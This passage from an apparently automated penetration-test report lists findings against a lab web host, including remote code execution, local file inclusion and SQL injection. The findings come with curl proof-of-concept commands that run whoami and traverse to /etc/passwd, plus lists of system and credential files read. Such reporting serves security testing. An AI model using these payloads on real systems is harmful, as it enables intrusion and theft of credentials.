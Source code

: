 Risk Level: CRITICAL
Risk Description: Password hashes, database files, and SSH keys accessible - complete system compromise
Total Files Accessed: 39
- **Proof File**: outputs/10.1.3.2_http_lfi_proof.txt

### Remote Code Execution (RCE)
- **Target**: 10.1.3.2:80
- **Risk Level**: CRITICAL
- **Risk Description**: No description available
- **Details**: RCE vulnerability exploited on http://10.1.3.2/phpinfo.php with parameter cmd
- **PoC**: `curl 'http://10.1.3.2/phpinfo.php?cmd=whoami'`
- **Proof**: RCE confirmed with 27 successful commands:
- whoami: User identification
- id: User and group information
- uname -a: System information
- pwd: Current directory
- ls -la: Directory listing

Risk Level: CRITICAL
Risk Description: Reverse shell capabilities confirmed - immediate compromise possible
Total Commands Executed: 27
- **Proof File**: outputs/10.1.3.2_http_rce_proof.txt

### Local File Inclusion (LFI) - Discovered Endpoint
- **Target**: 10.1.3.2:80
- **Risk Level**: CRITICAL
- **Risk Description**: No description available
- **Details**: LFI found on discovered endpoint http://10.1.3.2/twiki with parameter file
- **PoC**: `curl 'http://10.1.3.2/twiki?file=../../../etc/passwd'`
- **Proof**: LFI confirmed with 39 successful file inclusions:
- ../../../etc/passwd: User database
- ../../../etc/group: Group database
- ../../../etc/hosts: Hosts file
- ../../../etc/resolv.conf: DNS configuration
- ../../../etc/apache2/apache2.conf: Apache configuration

Risk Level: CRITICAL
Risk Description: Password hashes, database files, and SSH keys accessible - complete system compromise
Total Files Accessed: 39
- **Proof File**: outputs/10.1.3.2_http_lfi_discovered_proof.txt

## HIGH Risk Exploits

### SQL Injection (Error-based Indicator)
- **Target**: 10.1.3.2:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: Possible SQL error reflection at http://10.1.3.2/mutillidae/user-info.php?username=1'
- **PoC**: `curl 'http://10.1.3.2/mutillidae/user-info.php?username=1''`
- **Proof**: Possible SQL error reflection at http://10.1.3.2/mutillidae/user-info.php?username=1'
- **Proof File**: outputs/10.1.3.2_http_mutillidae_sqli_proof.txt
